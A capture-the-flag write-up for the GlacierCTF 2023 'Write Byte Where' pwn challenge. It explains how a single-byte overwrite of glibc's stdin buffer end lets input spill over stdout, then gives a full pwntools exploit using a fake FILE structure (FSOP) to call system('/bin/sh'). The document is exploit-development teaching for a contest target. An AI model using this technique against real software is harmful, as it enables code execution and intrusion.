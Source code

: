 ## Write Byte Where

was a pwn challenge from GlacierCTF 2023.

This is the only challenge I had time to do, as I was busy during this CTF.  The other challenges looked great too..

This challenge was a "**pwn with only one byte**" type of challenge, and it was a bit tricky.

------

### 1 - What it is about?

The challenge is pretty small, so here is the `main()` (and only) function:

![main](./pics/main.png)

+ The challenge disable buffering on `stdin`, `stderr`, and `stdout`with `setbuf()`
+ It open `/proc/self/maps` and dump it, so we know the actual mapping of the program and the libs. It even give us a stack address.
+ Then it ask for a 64bit address, and write a `char` (a single byte) to this address
+ after this, there is a sequence of: `getchar()`, `puts()`, `getchar()`, and `exit(0)`

The program has all protections on, except `canary`

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

------

### 2 - So what's next ?

The way I exploited it is a bit tricky, and discussing with the author, it looks like it's not the "intended way". (But hackers don't care about intended way no?)

> The program was using an Alpine linux libc: `glibc-2.38-2`, and the authors only provided the stripped version, and as it was an old version I could not find the debug symbols for it, so it was a bit painful to debug. I did use the `glibc-2.38-7` version for developing my exploit, which is the last version, and for which we can found the debug symbols. I had to adapt the offsets for the older version once my exploit worked.

As the buffering is disabled on `stdin`, `stderr`, and `stdout`, if we have a look to `_IO_2_1_stdin_`in memory:

![stdin1](./pics/stdin1.png)

We can see that there is a one byte buffer, that starts in this example at `0x7fb2a1131963` and finish at `0x7fb2a1131964`. That's the normal behavior of `stdin`when buffering is disabled. So only one byte read from `stdin`will be stored in this buffer. This buffer is in the middle of the `stdin`structure:

![stdin2](./pics/stdin2.png)

You can see the buffer in the picture above at address `0x7fb2a1131963`, and you can see that there is byte `0xa` (in red) stored in it. That's a carriage return ending a previous input.

But if we modify the `_IO_buf_end` entry of stdin, we can restore the buffering that was disabled. For example we can overwrite with our byte the LSB of  `_IO_buf_end` or even better the byte above the LSB to extend the buffer further in memory.

What will happen when a function will try to read from `stdin`, like `getchar()` for example, is that the data sent on stdin will be buffered in the buffer, and we will overwrite the last part of stdin, and further in memory up to `_IO_buf_end`.

`getchar()`will still return only one byte, but the additional data sent will be written in our new buffer, it will be buffered.

That is interesting because `stdout` is further in memory `0xce0` bytes after `stdin`, and so we will be able to overwrite `stdout` (and `stderr`which is on the way before  `stdout`).

We will just have to take care of restoring the end of `stdin` on the way. The zone between `stdin`and `stdout`will be filled with zeroes. 

For example if we overwrite the second lsb of `_IO_buf_end`, to extend the buffer up to after `stdout`then we send a long 'AAAAAAA....'  string as input to `getchar()`, here is the resulting `stdin`after:

![stdin3](./pics/stdin3.png)

You can see that `_IO_buf_end` as been extended to `0x7fb2a1132764`, and that our string has overwrite the rest of `stdin` structure...You got the idea.

so to resume the process lets look at the succession of functions that we will use and abuse:

```c
  scanf("%c", target);
  getchar();
  puts("Goodbye! (press  Enter  to exit)");
```

+ with the `scanf()` we will overwrite `_IO_buf_end` second LSB in `stdin`, to expand the buffer over `stdout`
+ with the `getchar()` we will send a payload that will be written over the end of  `stdin` up to the end of `stdout`, and we will write a classic FSOP over `stdout`to get code execution when a function will use `stdout` (see [https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout))

+ `puts()` will try to output on `stdout`, that will execute our FSOP payload, that will execute `system(/bin/sh)`

And that's finish.. we got shell.

![shell](./pics/shell.gif)

------

### 3 - The exploit.

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("vuln_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "chall.glacierctf.com", "13374"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path], aslr=True)
# get various leaks, we only need libc actually.
context.log_level = 'info'
libcl = 0
line = p.recvuntil('\n')
parts = line.split(b'-')
prog = int(parts[0],16)
exe.address = prog
logleak('prog base', exe.address)
while True:
  line = p.recvuntil('\n')
  if ((b'libc.so.6' in line) and (libcl==0)):
    parts = line.split(b'-')
    libcl = int(parts[0],16)
    libc.address = libcl
    logbase()
    break
# get stack leak
stack = int(rcu('extra: ', '\n'),16)
logleak('stack', stack)

# calculate second LSB of address after stdout
val = ((libc.sym['_IO_2_1_stdout_']+0x300) & 0xff00)>>8
# overwrite _IO_buf_end second LSB in stdin
sla('Where: ',  str(libc.sym['_IO_2_1_stdin_']+0x41))
sa('What: ', p8(val))

# build our FSOP payload
# some constants
stdout_lock = libc.address + 0x240710   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x000000000014a870 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh'.ljust(8,b'\x00'))  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

# we restore end of stdin that is overwritten in the payload first, then stdout
# we will fill with zeroes in betweend (stderr will be erased, but that works...)
payload = flat({
  5: p64(libc.address+0x240720)+p64(0xffffffffffffffff)+p64(0)+p64(libc.address+0x23e9c0)+p64(0)*3+p64(0x00000000ffffffff)+p64(0)*2+p64(libc.sym['_IO_file_jumps']),
  0xc5d: bytes(fake),
}, filler=b'\x00')
# remote exploit need a pause before sending the payload, because of latency
if args.REMOTE:
  sleep(1)
p.send(payload)
#enjoy shell now
p.interactive()

```

*nobodyisnobody still hacking things.*

